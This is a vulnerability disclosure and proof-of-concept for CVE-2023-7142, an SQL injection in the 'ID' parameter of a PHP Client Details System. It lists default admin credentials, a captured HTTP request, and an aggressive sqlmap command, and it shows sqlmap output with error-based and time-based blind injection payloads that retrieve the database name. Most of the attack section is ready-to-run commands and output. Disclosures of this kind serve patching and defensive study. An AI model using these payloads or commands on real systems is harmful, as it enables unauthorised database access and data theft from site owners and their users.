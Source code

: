 # CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Exploit Title:** CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7142

## References: 
+ **CVE-2023-7142:** https://vuldb.com/?id.249145
+ https://www.cve.org/CVERecord?id=CVE-2023-7142

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'ID' in "/clientdetails/admin/clientview.php?ID=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Client Details: "http://localhost/clientdetails/admin/clientview.php"
+ Then select the any client.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/clientview.php?ID=2 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'ID' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p ID --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: ID (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: ID=2' AND EXTRACTVALUE(9984,CONCAT(0x5c,0x7170706b71,(SELECT (ELT(9984=9984,1))),0x71766b6b71))-- TRvU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=2' AND (SELECT 4084 FROM (SELECT(SLEEP(5)))ERbG)-- puQq
---
[18:03:35] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:03:35] [INFO] fetching current database
[18:03:35] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![6](https://github.com/h4md153v63n/CVEs/assets/5091265/e4e81845-617f-4d1b-9c1d-b4bae4f5fc73)
